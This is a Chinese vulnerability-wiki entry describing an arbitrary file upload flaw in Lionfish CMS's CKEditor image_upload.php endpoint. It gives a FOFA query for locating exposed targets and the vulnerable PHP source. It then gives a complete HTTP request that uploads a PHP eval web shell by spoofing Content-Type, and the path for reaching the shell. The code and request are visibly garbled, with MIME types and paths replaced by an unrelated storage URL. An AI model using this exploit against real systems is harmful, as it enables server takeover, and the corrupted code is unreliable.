 # 狮子鱼CMS image_upload.php 任意文件上传

## 漏洞描述

狮子鱼CMS使用CK编辑器，存在图片上传的绕过，造成 image_upload.php 任意文件上传

## 漏洞影响

> [!NOTE]
>
> 狮子鱼CMS

## FOFA

> [!NOTE]
>
> "/seller.php?s=/Public/login"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/szy-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞文件为 CK编辑器的 image_upload.php

```php
<?php
 define ( 'IN_BAMBOO', true );
 // 取得根目录
define ( 'ROOT_PATH', '../../../../' );  // back to your root path

$arrType = array (
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/png',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/bmp',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/pjpeg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpeg' 
);
$max_size = 500 * 1024; // 最大文件限制（单位：byte）
$upfile = ROOT_PATH.'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads'; // 图片目录路径
if (!isset($_FILES ['files'])){
	echo '{"result":"400","msg":"未能找到图片，请确认图片是否过大"}';
	exit ();
}
$file = $_FILES ['files'];

if ($_SERVER ['REQUEST_METHOD'] == 'POST') { // 判断提交方式是否为POST
	if (! is_uploaded_file ( $file ['tmp_name'] )) { // 判断上传文件是否存在
		echo '{"result":"400","msg":"图片不存在"}';
		exit ();
	}
	
	if ($file ['size'] > $max_size) { // 判断文件大小是否大于500000字节
		echo '{"result":"400","msg":"上传图片太大，最大支持：'.($max_size/1024).'KB"}';
		exit ();
	}
	if (! in_array ( $file ['type'], $arrType )) { // 判断图片文件的格式
		echo '{"result":"400","msg":"上传图片格式不对"}';
		exit ();
	}
	if (! file_exists ( $upfile )) { // 判断存放文件目录是否存在
		mkdir ( $upfile, 0777, true );
	}
	$imageSize = getimagesize ( $file ['tmp_name'] );
	$img = $imageSize [0] . '*' . $imageSize [1];
	$fname = $file ['name'];
	$ftype = explode ( '.', $fname );
	$time = explode ( " ", microtime () );
	$time = $time [1] . ($time [0] * 1000);
	$time2 = explode ( ".", $time );  
	$time = $time2 [0];
	$returnName=$time."." .end($ftype);
	$picName = $upfile . "/" . $returnName ;
	
	if (! move_uploaded_file ( $file ['tmp_name'], $picName )) {
		echo '{"result":"400","msg":"从:'.$file ['tmp_name'].'移动图片到:'.$picName.'出错"}';
		exit ();
	} else {
		echo '{"result":"200","imgurl":"http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/' . $returnName . '"}';
	}
}

?>
```

其中使用 **Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif**  即可绕过上传PHP文件

```
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/2
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 208

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST[test]);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```

![](http://wikioss.peiqi.tech/vuln/szy-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问返回的文件路径 

```
/Common/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/xxxxx.php
```

![](http://wikioss.peiqi.tech/vuln/szy-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)